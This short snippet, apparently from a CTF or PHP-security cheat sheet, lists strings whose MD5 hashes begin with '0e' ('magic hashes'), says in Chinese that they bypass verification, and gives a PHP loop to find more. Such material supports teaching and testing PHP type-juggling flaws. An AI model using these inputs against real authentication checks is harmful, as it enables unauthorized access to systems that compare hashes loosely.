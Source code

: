 ```
fVpz
feqN
fjqN
fvq1
fyqy
fAqJ
fEqk
fFqg
fFqi
fHqX
fIqF
fKqh
fLq6
fQq6
fQqA
fRql
fUq4
fUqA
fXq0
farg
farJ
ftrT
f7rm
fCrB
fErY
fIrt
QNKCDZO
s878926199a
s155964671a
s214587387a
s214587387a
s878926199a
240610708
314282422
s1502113478a
s1091221200a
```

以上字符 md5 开头都是 0e,即可绕过验证

可以用下列脚本寻找
```php
<?php
for($a=1;$a<=1000000000;$a++){
   $md5 = md5($a);
   if(preg_match('/^0e\d+$/',$md5)){
      echo $a;
      echo "\n";
      echo $md5;
      echo "\n";
   }
}
```
